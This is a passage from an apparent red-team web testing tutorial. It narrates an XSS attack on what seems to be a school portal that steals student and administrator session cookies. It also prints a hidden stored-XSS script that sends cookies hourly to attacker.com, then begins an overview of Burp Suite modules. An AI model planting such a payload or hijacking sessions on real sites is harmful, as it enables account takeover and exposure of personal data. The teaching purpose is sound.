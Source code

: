 5. **Session Hijacking**:
   - Collected multiple active session cookies from students and one administrator
   - Used the administrator cookie to access the admin panel
   - Modified the browser's cookies to use the stolen admin session
   - Accessed grade information and personal details of students

6. **Persistent Exploitation**:
   ```javascript
   // Created a persistent backdoor by injecting a stored XSS in an announcement
   <div style="display:none">
   <script>
   function sendCookies() {
     var i = new Image();
     i.src = 'http://attacker.com/collect.php?c=' + encodeURIComponent(document.cookie);
   }
   sendCookies();
   setInterval(sendCookies, 3600000);  // Send every hour
   </script>
   </div>
   ```

This example demonstrates the real impact of XSS vulnerabilities, which can lead to complete compromise of user accounts, including administrative access. The stealth techniques used (invisible image, URL shortening, hidden script in announcements) highlight how these attacks can be difficult to detect.

## Burp Suite Professional: Web Application Testing Platform

Burp Suite Professional is a comprehensive web application testing platform that integrates multiple tools for security assessment. While it comes with a price tag, it's an essential tool for serious red team web application testing. A limited free version (Burp Suite Community) is available but lacks many advanced features.

### Key Burp Suite Modules

#### Proxy

The Proxy module intercepts HTTP/S traffic between your browser and target applications:

```bash
# Configure your browser to use proxy at 127.0.0.1:8080
# Start Burp Suite and ensure Proxy > Intercept is on
```

#### Scanner (Professional Only)

The Scanner module automatically identifies vulnerabilities:

```bash
# Select a target in the Site Map
# Right-click > Scan > Active Scan
```

#### Intruder
